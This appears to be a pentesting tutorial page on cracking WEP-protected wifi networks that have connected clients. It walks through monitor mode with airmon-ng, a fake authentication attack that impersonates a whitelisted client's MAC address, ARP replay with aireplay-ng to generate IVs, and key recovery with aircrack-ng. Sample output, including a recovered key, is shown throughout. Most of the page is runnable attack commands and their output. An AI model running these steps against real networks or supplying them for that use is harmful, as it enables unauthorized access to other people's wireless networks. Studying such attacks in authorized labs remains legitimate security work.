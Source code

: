 # WEP Attack - Clients connected

### 

### 1. Fake authentication attack \(MAC association\)

In a possible attack scenario, where an AP has MAC address filtering. We need to first obtain a valid mac address of a client, then wait until the client is no longer on the network and impersonate the client by performing fake authentication attack to associate our attacking machine with the victim access point.

**More Importantly**: This step may be required against targets that have mac whitelisting which the AP will only accept connections from specifically whitelisted MAC addresses. If this happens, we will need to observe in monitor mode for a client that is associated to the AP \(lower part screen of the airodump-ng output\) and wait for them to disconnect before impersonating their MAC address.

As usual begin all attacks with putting your adapter in monitor mode, mines on `wlan0`

```bash
airmon-ng check kill
airmon-ng start wlan0

# save capture file to disk - breaking it later (let it run)
aiodump-ng -c 3 --essid <SSID NAME> -w wepfile1 mon0

# perform fake authentication attack - on new terminal
# Authenticate my mac address to accesspoint (else traffic may be rejected)
#
# -1 fake auth attack
# 0 association timing in seconds
aireplay-ng -1 0 -e <AP_ESSID> -a <AP_MAC> -h <MY_MAC> mon0

# you should see this success
# 22:42:26  Sending Authentication Request (Open System) [ACK]
# 22:42:26  Authentication successful
# 22:42:26  Sending Association Request [ACK]
# 22:42:26  Association successful :-) (AID: 1)

```

You will see that your monitor MAC address is added \(lower screen of your airmon-ng screen\) showing that it is now associated with the target AP.

**Info:** iWireshark will show that there are 4 packets in this sequence of exchange. Protocol 802.11. 

* we send a "Open System" request \(Authentication Algorithm\) to AP 
* AP response with status code successful 
* we send a association request "SSID parameter set: AP\_ESSID\_NAME" 
* AP response with status code successful

### 2.  Collect IV data using ARP replay attack

Using the interactive aireplay attack we choose a specific packet to replay against target network to get a response \(eg. using ARP will make client respond the ARP response\) to generate enough IV so that we can successfully crack the WEP password

```bash
aireplay-ng -2 -e <ESSID> -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 wlan0mon
# -f 1           to filter packets with "from DS" bit set (the values are 0 or 1) - why???
# -m 68 -n 86    minumum and maximum size of ARP packets 
# -d             Broadcast to all 

# No source MAC (-h) specified. Using the device MAC (98:3F:9F:19:06:49)
# 
# 
#         Size: 68, FromDS: 1, ToDS: 0 (WEP)
# 
#               BSSID  =  88:D7:F6:B8:EE:80
#          Dest. MAC  =  FF:FF:FF:FF:FF:FF
#          Source MAC  =  88:D7:F6:B8:EE:80
# 
#         0x0000:  0842 0000 ffff ffff ffff 88d7 f6b8 ee80  .B..............
#         0x0010:  88d7 f6b8 ee80 c03c dcf9 bb00 a0bb 7f65  .......<......e
#         0x0020:  d4a6 04d1 90c6 dbd8 92cc d7bf 743b 4577  ............t;Ew
#         0x0030:  82aa e7d7 4e22 9dff a3d8 0e0e a5f5 8911  ....N"..........
#         0x0040:  230a ee10                                #...
# 
# Use this packet ? y
```

**Info:** When a packet is captured, we can chose to use that packet to replay against the target to collect more IV \(more IV collected will help crack the WEP password\). You will see the 'data' field in your monitor count increasing rapidly, if not use other packets. About 40,000 data count collected should be enough to crack the WEP.

### 3. Cracking WEP

Now that we have enough IV collected \(in the written cap file\) we can easily crack it using

```bash
aircrack-ng -0 -z -n 64 clientwep-01.cap

# Reading packets, please wait...
# Opening clientwep-01.cap
# Read 282535 packets.
# 
#    #  BSSID              ESSID                     Encryption
# 
#    1  88:D7:F6:B8:EE:80  ABCDEF                     WEP (0 IVs)
# 
# Choosing first network as target.
# 
# Reading packets, please wait...
# Opening clientwep-01.cap
# Read 282535 packets.
# 
# 1 potential targets
# 
# Attack will be restarted every 5000 captured ivs.
# Starting PTW attack with 58681 ivs.
#                          KEY FOUND! [ 12:34:56:78:9A ] 
# 	Decrypted correctly: 100%

```

### 

### 

